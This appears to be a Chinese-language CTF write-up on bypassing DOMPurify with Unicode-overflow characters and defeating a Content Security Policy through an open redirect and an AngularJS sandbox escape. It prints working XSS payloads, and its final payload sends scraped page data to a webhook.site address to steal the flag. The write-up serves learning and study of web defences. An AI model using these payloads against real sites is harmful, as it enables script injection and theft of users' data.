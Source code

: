 # 从一道XSS题学习CSP绕过

  
  
&lt;!--more--&gt;  
## 0x00 解题记录  
`/create`可以创建笔记存入到数据库，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102148138.png)
`/note`可以展示笔记  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102149796.png)
但在`/create`处存在`DOMPurify`来过滤`xss`，由于是最新版无法绕过，  
需要注意到在`/note`笔记展示的地方，是利用了`ascii`来处理了字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102151665.png)
这里会涉及到一个`unicode`溢出的安全问题  
举一个🌰  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102158214.png)
利用这个原理，选两个`unicode`字符来逃逸`&lt;&gt;`  
`氼`、`夾`  
来试一下，正常的解析了`&lt;&gt;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102203883.png)
构造一个payload  
```javascript  
氼script src=&#34;https://www.example.com&#34;夾alert(1);//氼/script 夾  
```  
正常触发了CSP  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102208902.png)
现在就需要绕过CSP了，利用`/redirect`接口绕过CSP即可  
```javascript  
  res.setHeader(  
    &#34;Content-Security-Policy&#34;,  
    `script-src &#39;self&#39; &#39;nonce-${nonce}&#39; &#39;unsafe-eval&#39; https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js; base-uri &#39;none&#39;; object-src &#39;none&#39;;`  
  );  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102220072.png)
还需要利用到`angular`组件，原因如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102348192.png)
在重定向只会忽略路径部分，而不会忽略URL，而CSP中又恰巧信任了`https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js`  
{% raw %}  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt; {{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };alert(1);//&#39;);}} &lt;/div&gt;  
```  
{% endraw %}  
（这里在本地搭建了一个作为测试）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102359533.png)
根据`bot.ts`来盗取`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110001119.png)
payload  
{% raw %}  
```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt;{{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };  
    fetch(`http://localhost:3000/`).then(res=&gt;res.text()).then(data=&gt;{ const parser = new DOMParser();  
    const doc = parser.parseFromString(data, &#34;text/html&#34;);  
    const links = Array.from(doc.querySelectorAll(&#34;a&#34;)).map(a =&gt; a.href);  
    const encodedLinks = btoa(unescape(encodeURIComponent(JSON.stringify(links))));  
    return fetch(&#34;https://webhook.site/5b154691-3fdb-46b8-980b-735e19b081f2?ans=&#34; &#43; encodedLinks, { method: &#34;GET&#34;, mode: &#34;no-cors&#34; })});//&#39;);}}&lt;/div&gt;  
```  
{% endraw %}  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110004738.png)
## Reference  
[https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows &#34;https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows&#34;)https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects  
https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques  
https://csp-evaluator.withgoogle.com/  
https://github.com/Mehdi0x90/Web_Hacking/blob/main/CSP%20Bypass.md  
  
## 0x00000  
弟弟新建了一个交流群，欢迎有兴趣的师傅一起来讨论有趣的Web题
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502101949106.jpg)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E4%BB%8E%E4%B8%80%E9%81%93xss%E9%A2%98%E5%AD%A6%E4%B9%A0csp%E7%BB%95%E8%BF%87/  

